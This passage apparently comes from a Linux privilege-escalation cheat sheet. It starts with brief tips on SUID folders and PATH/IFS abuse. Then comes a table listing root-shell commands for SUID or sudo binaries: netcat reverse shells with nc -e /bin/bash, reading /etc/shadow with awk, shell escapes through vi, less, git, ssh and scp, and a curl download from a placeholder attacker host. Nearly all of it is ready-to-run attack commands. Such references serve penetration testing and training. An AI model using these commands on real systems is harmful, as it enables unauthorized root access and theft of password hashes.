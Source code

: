 12. Can I write files into a folder containing a SUID bit file?
  - Might be possible to take advantage of a '.' in the **PATH** or an **The IFS** (or Internal Field Separator) Exploit.

13. If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables               | Priv Esc Command (will need to prefix with sudo if you are using sudo for priv esc. |
|---------------------------------------|-------------------------------------------------------------------------------------|
| (ALL : ALL ) ALL                      | You can run any command as root.<br> sudo su - <br> sudo /bin/bash                    |
| nmap <br> (older versions 2.02 to 5.21)  | nmap --interactive <br> !sh                                                           |
| netcat <br> nc <br> nc.traditional          | nc -nlvp 4444 & <br> nc -e /bin/bash 127.0.0.1 4444                                  |
| ncat                                  |                                                                                     |
| awk <br> gawk                            | awk '{ print }' /etc/shadow <br> awk 'BEGIN {system("id")}'                         |
| python                                | python -c 'import pty;pty.spawn("/bin/bash")'                                       |
| php                                   |  CMD="/bin/sh" sudo php -r "system('$CMD');"                                        |
| find                                  | find /home -exec nc -lvp 4444 -e /bin/bash; <br> find /home -exec /bin/bash;           |
| xxd                                   | LFILE=file_to_read sudo xxd "$LFILE" | xxd -r                                       |
| vi                                    | sudo vi -c ':!/bin/sh' /dev/null                                                    |
| more                                  | TERM= sudo more /etc/profile <br> !/bin/sh                                         |
| less                                  | sudo less /etc/profile <br> !/bin/sh                                               |
| nano                                  | sudo nano <br> ^R^X <br> reset; sh 1>&0 2>&0                                       |
| cp                                    | sudo cp /bin/sh /bin/cp <br> sudo cp                                               |
| cat                                   | LFILE=file_to_read <br> sudo cat "$LFILE"                                          |
| bash                                  | sudo bash                                                                          |
| ash                                  |  sudo ash                                                                           |
| sh                                   | |
| csh                                  | |
| curl                                 | URL=<http://attacker.com/file_to_get> <br> LFILE=file_to_save <br> sudo curl $URL -o $LFILE |
| dash                                 | |
| pico                                 | sudo pico <br> ^R^X <br> reset; sh 1>&0 2>&0                                         |
| nano                                 |  sudo nano <br> ^R^X <br> reset; sh 1>&0 2>&0                                        |
| tclsh                                | sudo tclsh <br> exec /bin/sh <@stdin >@stdout 2>@stderr                              |
| git                                  | sudo PAGER='sh -c "exec sh 0<&1"' git -p help <br> or <br> sudo git -p help config <br> !/bin/sh |
| scp                                  | TF=$(mktemp) <br> echo `'sh 0<&2 1>&2' > $TF` <br> chmod +x "$TF" <br> sudo scp -S $TF x y: |
| expect                               | sudo expect -c 'spawn /bin/sh;interact'                                              |
| ftp                                  | sudo ftp <br> !/bin/sh                                                               |
| socat                                | sudo socat stdin exec:/bin/sh                                                        |
| script                               | sudo script -q /dev/null                                                             |
| ssh                                  | sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x                                           |
| zsh                                  | sudo zsh                                                                             |
